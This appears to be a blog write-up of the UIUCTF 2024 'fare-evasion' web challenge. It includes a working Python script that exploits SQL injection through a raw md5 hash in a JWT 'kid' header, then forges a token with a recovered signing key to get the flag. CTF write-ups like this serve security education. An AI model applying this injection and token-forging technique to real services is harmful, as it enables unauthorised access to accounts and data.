 ```yaml
---
layout: post
title:  "fare-evasion - UIUCTF 2024"
date:   2024-06-29 00:00:00 -0400
---
```


https://ctftime.org/event/2275

# fare-evasion (web)

Unusual sqli challenge

## Solution
The bug happens because of not calling `.hex()` on the result of the md5
So if we can find some hash with `'1=1` or something like that we can dump the whole db
Fortunately someone already wrote about that a decade ago:
https://cvk.posthaven.com/sql-injection-with-raw-md5-hashes

```python
#!/usr/bin/env python3
import requests
import jwt
import hashlib

REMOTE = "https://fare-evasion.chal.uiuc.tf/pay"

sqli = '129581926211651571912466741651878684928'

j = jwt.encode(
    {"type": "passenger"},
    key='a_boring_passenger_signing_key_?',
    algorithm="HS256",
    headers={"kid": sqli, "typ": "JWT"},
)
res = requests.post(REMOTE, cookies={'access_token': j})

ck = "conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e"

j = jwt.encode(
    {"type": "passenger"},
    key=ck,
    algorithm="HS256",
    headers={"kid": "conductor_key", "typ": "JWT"},
)

res = requests.post(REMOTE, cookies={'access_token': j})
print(f"DEBUGPRINT[2]: lab.py:28: res.text={res.text}")
```

## Flag
`uiuctf{sigpwny_does_not_condone_turnstile_hopping!}`

shafouz 2024/06/29
